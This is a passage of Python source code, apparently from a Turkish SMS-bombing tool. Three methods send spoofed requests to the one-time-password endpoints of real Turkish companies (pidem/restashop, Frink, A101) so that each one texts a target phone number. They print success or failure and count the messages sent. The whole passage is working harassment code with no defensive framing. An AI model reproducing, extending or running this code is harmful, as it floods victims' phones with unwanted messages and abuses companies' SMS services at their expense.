 
    #pidem.com.tr
    def Pidem(self):
        try:
            url = "https://restashop.azurewebsites.net:443/graphql/"
            headers = {"Accept": "*/*", "Origin": "https://pidem.azurewebsites.net", "Content-Type": "application/json", "Authorization": "Bearer null", "Referer": "https://pidem.azurewebsites.net/", "Accept-Language": "tr-TR,tr;q=0.9", "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 15_8 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko)", "Accept-Encoding": "gzip, deflate, br"}
            json={"query": "\n  mutation ($phone: String) {\n    sendOtpSms(phone: $phone) {\n      resultStatus\n      message\n    }\n  }\n", "variables": {"phone": self.phone}}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["data"]["sendOtpSms"]["resultStatus"] == "SUCCESS":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> restashop.azurewebsites.net")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> restashop.azurewebsites.net")


    #frink.com.tr
    def Frink(self):
        try:
            url = "https://api.frink.com.tr:443/api/auth/postSendOTP"
            headers = {"Accept": "*/*", "Content-Type": "application/json", "Authorization": "", "Accept-Encoding": "gzip, deflate, br", "User-Agent": "Frink/1.4.6 (com.frink.userapp; build:1; iOS 15.8.0) Alamofire/4.9.1", "Accept-Language": "tr-TR;q=1.0, en-TR;q=0.9", "Connection": "close"}
            json={"areaCode": "90", "etkContract": True, "language": "TR", "phoneNumber": "90"+self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["processStatus"] == "SUCCESS":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.frink.com.tr")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.frink.com.tr")

    #a101
    def a101(self):
        try:
         url = "https://www.a101.com.tr/users/otp-login/"
         payload = {
             "phone" : f"0{self.phone}"
         }
         r = requests.post(url=url, json=payload, timeout=5)
         if r.status_code == 200:
             print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> a101.com.tr")
             self.adet += 1
         else:
             raise
        except:
             print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> a101.com.tr")
